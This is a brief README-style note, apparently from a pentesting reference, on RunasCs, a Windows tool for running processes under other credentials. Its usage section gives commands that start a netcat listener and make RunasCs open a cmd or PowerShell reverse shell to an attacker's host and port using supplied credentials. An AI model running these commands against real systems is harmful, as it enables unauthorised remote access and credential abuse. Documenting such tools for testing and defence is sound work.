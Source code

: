 # runasCs

## Overview

RunasCs is an utility to run specific processes with different permissions than the user's current logon provides using explicit credentials. This tool is an improved and open version of windows builtin runas.exe that solves some limitations.


## Usage

First start nc in local machine:

    rlwrap nc -nvlp 4444

    ./RunasCs.exe <username> <password> cmd -r <localip>:<port>
    ./RunasCs.exe <username> <password> powershell-r <localip>:<port>

## More Information

https://github.com/antonioCoco/RunasCs